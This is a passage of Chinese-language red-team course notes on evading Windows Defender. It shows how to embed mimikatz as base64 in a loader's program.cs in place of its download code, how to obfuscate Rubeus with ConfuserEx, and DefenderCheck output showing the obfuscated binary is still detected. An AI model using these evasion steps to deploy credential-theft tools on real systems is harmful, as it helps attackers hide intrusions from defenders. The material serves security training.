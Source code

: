 2. 在program.cs加一个变量

```
string base64value = "<上面mimikatz的base64>"
```

3. 注释program.cs这一段

```
  //Is it a URI?
                // if (latestPath.StartsWith("http"))
                // {
                //     //Download
                //     zipStream = webClient.DownloadData(latestPath);
                // }
                // else
                // {
                //     //Read file from path
                //     zipStream = File.ReadAllBytes(latestPath);
                // }
```

底下再加一行
```
zipStream = Convert.FromBase64String(base64value);
```

重新生成

但是单凭上面几步不能过现在的wd

## 例子4 使用[ConfuserEx](https://github.com/mkaring/ConfuserEx)混淆Rubeus.exe

教材的步骤是：

• In Project tab select the Base Directory where the binary file is located.
• In Project tab Select the Binary File that we want to obfuscate.
• In Settings tab add the rules.
• In Settings tab edit the rule and select the preset as `Normal`.
• In Protect tab click on the protect button.

生成的exe使用DefenderCheck检查
```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\Rubeus-master\Rubeus\bin\Debug\Confused\Rubeus.exe

OriginalFileDetectionStatus is : ThreatFound
Target file size: 853504 bytes
Analyzing...

File matched signature: "VirTool:MSIL/Kekeo.NT!MTB"

[!] Identified end of bad bytes at offset 0xCD71A in the original file
File matched signature: "VirTool:MSIL/Kekeo.NT!MTB"

00000000   50 65 72 6D 69 73 73 69  6F 6E 41 74 74 72 69 62   PermissionAttrib
00000010   75 74 65 2C 20 6D 73 63  6F 72 6C 69 62 2C 20 56   ute, mscorlib, V
00000020   65 72 73 69 6F 6E 3D 34  2E 30 2E 30 2E 30 2C 20   ersion=4.0.0.0,
00000030   43 75 6C 74 75 72 65 3D  6E 65 75 74 72 61 6C 2C   Culture=neutral,
00000040   20 50 75 62 6C 69 63 4B  65 79 54 6F 6B 65 6E 3D    PublicKeyToken=
00000050   62 37 37 61 35 63 35 36  31 39 33 34 65 30 38 39   b77a5c561934e089
00000060   15 01 54 02 10 53 6B 69  70 56 65 72 69 66 69 63   ··T··SkipVerific
00000070   61 74 69 6F 6E 01 08 01  00 08 00 00 00 00 00 1E   ation···········
00000080   01 00 01 00 54 02 16 57  72 61 70 4E 6F 6E 45 78   ····T··WrapNonEx
00000090   63 65 70 74 69 6F 6E 54  68 72 6F 77 73 01 06 20   ceptionThrows··
000000A0   01 01 11 81 F9 08 01 00  07 01 00 00 00 00 0B 01   ···?ù···········
000000B0   00 06 52 75 62 65 75 73  00 00 05 01 00 00 00 00   ··Rubeus········
```
